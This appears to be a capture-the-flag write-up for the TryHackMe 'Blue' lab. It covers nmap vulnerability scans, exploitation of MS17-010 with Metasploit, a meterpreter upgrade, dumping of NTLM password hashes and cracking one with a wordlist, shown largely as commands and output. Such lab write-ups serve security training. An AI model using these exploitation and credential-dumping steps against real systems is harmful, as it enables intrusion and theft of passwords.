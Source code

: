 # TryHackMe Blue test

Here is how I solved the Blue test on [TryHackMe](https://tryhackme.com/room/blue), where your goal is to hack a Windows machine, find the passwords for the admins and get the 3 flags hidden in the system.

## Testing ports and vulnerabilities

Initial scan done on `scans/initial.nmap`.
```sh
$ nmap -sC -sV -oN initial.nmap 10.10.60.209
```

Complete scan done with vulscan on `scans/vulscan.nmap`.
```sh
$ nmap -sC -sV --script=vulscan/vulscan.nse -oN vulscan.nmap 10.10.60.209
```

Found vulnerability ms12-020 on port 3389 on `scans/ms12-020.nmap`.
```sh
$nmap -sV --script=rdp-vuln-ms12-020 -oN ms12-020.nmap -p 3389 10.10.60.209
```

Found vulnerability ms17-010 on port 445 on `scans/smb-vuln`, which will be used on this test.
```sh
$nmap -sV --script smb-vuln* -oN smb-vuln.nmap -p 445 10.10.60.209
```

## Abusing vulnerabilities
Found metasploit exploits on [SMB Penetration Testing (Port 445)](https://www.hackingarticles.in/smb-penetration-testing-port-445/)

Use the exploit to create a session with the machine
```sh
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.60.209
rhost => 10.10.60.209
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
After session created, pressed ctrl+z to minimize the session and converted the shell to meterpreter shell with:
```sh
sf5 exploit(multi/samba/usermap_script) > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf5 post(multi/manage/shell_to_meterpreter) > exploit
```
Select the new session created to use.
```sh
msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 3`
```

Check the system info.
```sh
meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```
 
Open a shell and check if we have the permissions.
```sh
meterpreter > shell
Process 768 created.
Channel 3 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Find a running process running on the `NT AUTHORITY\SYSTEM` user and migrate to it.
```sh
meterpreter > ps
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 1292  1284  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe

...

meterpreter > migrate 1292
[*] Migrating from 2568 to 1292...
[*] Migration completed successfully.
```

Find the users on the machine and their passwords.
```sh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
``` 

Use `hashdump` to dump the hashes.
```sh
msf5 exploit(multi/manage/shell_to_meterpreter) > use post/windows/gather/hashdump
msf5 post(windows/gather/hashdump) > set SESSION 4
SESSION => 4
msf5 post(windows/gather/hashdump) > run

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 55bd17830e678f18a3110daf2c17d4c7...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

Jon:"Nah boi, I ain't sharing nutting with you"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


[*] Post module execution completed
```

Check the credentials on the local database
```sh
msf5 post(windows/gather/hashdump) > creds
Credentials
===========

host          origin        service        public         private                                                            realm  private_type  JtR Format
----          ------        -------        ------         -------                                                            -----  ------------  ----------
10.10.60.209  10.10.60.209  445/tcp (smb)  administrator  aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash     nt,lm
10.10.60.209  10.10.60.209  445/tcp (smb)  guest          aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0         NTLM hash     nt,lm
10.10.60.209  10.10.60.209  445/tcp (smb)  jon            aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d         NTLM hash     nt,lm
```
Use John the Reaper to crack the passwords with the rockyou.txt wordlist.
```sh
msf5 post(windows/gather/hashdump) > useauxiliary/analyze/crack_windows
msf5 auxiliary(analyze/crack_windows) > set CUSTOM_WORDLIST /opt/pwdlist/rockyou.txt
CUSTOM_WORDLIST => /opt/pwdlist/rockyou.txt
msf5 auxiliary(analyze/crack_windows) > run
...
[+] Cracked Hashes
==============

 DB ID  Hash Type  Username  Cracked Password  Method
 -----  ---------  --------  ----------------  ------
 3      nt         jon       alqfna22          Single

[*] Auxiliary module execution completed
```

## Finding the flags

As easy as it sounds, the flags are 3 text files that we need to read. To this I just run a simple search and `cat` the files to read it`s content.

```sh
meterpreter > search -f flag*.txt
```

